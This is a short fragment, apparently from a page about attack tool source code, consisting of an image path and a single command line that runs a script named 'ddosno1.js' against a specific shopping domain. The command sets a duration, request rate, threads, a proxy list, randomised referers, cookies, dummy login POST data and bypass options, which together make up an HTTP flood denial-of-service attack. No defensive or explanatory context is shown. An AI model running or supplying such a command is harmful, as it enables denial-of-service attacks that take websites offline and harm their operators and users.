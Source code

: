 node ddosno1.js GET "https://jmtshipping.shop/" 120 23 90 proxy.txt --query 1 --cookie "uh=good" --delay 1 --bfm true --referer rand --postdata "user=f&pass=%RAND%" --debug --randrate --full
